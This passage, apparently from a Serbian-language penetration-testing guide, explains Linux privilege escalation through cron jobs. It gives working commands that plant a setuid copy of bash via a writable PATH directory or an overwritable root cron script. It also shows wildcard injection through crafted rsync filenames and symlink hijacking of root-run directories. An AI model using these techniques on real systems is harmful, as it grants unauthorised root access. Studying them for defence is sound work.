 ### Putanja za Cron

Na primer, unutar _/etc/crontab_ datoteke možete pronaći putanju: _PATH=**/home/user**:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin_

(_Primetite kako korisnik "user" ima privilegije pisanja nad /home/user_)

Ako unutar ove crontab datoteke korisnik root pokuša da izvrši neku komandu ili skriptu bez postavljanja putanje. Na primer: _\* \* \* \* root overwrite.sh_\
Tada možete dobiti root shell koristeći:

```bash
echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /home/user/overwrite.sh
#Wait cron job to be executed
/tmp/bash -p #The effective uid and gid to be set to the real uid and gid
```

### Cron koristeći skriptu sa džokerom (Wildcard Injection)

Ako se skripta izvršava kao root i ima "**\***" unutar komande, možete iskoristiti ovo da biste izvršili neočekivane radnje (poput eskalacije privilegija). Primer:

```bash
rsync -a *.sh rsync://host.back/src/rbd #You can create a file called "-e sh myscript.sh" so the script will execute our script
```

**Ako je zamena za sve karaktere prethodjena putanjom kao** _**/neka/putanja/\***_ **, nije ranjiva (čak ni** _**./\***_ **).**

Pročitajte sledeću stranicu za više trikova eksploatacije zamene za sve karaktere:

{% content-ref url="wildcards-spare-tricks.md" %}
[wildcards-spare-tricks.md](wildcards-spare-tricks.md)
{% endcontent-ref %}

### Prepisivanje skripte Cron-a i simboličke veze

Ako **možete izmeniti skriptu Cron-a** koju izvršava root, možete vrlo lako dobiti shell:

```bash
echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > </PATH/CRON/SCRIPT>
#Wait until it is executed
/tmp/bash -p
```

Ako skripta koju izvršava root koristi **direktorijum u kojem imate potpuni pristup**, možda bi bilo korisno da obrišete taj folder i **napravite simbolički link ka drugom folderu** u kojem se nalazi skripta kojom vi upravljate.

```bash
ln -d -s </PATH/TO/POINT> </PATH/CREATE/FOLDER>
```

### Česti cron poslovi

Možete pratiti procese kako biste pronašli one koji se izvršavaju svake 1, 2 ili 5 minuta. Možda možete iskoristiti to i povećati privilegije.

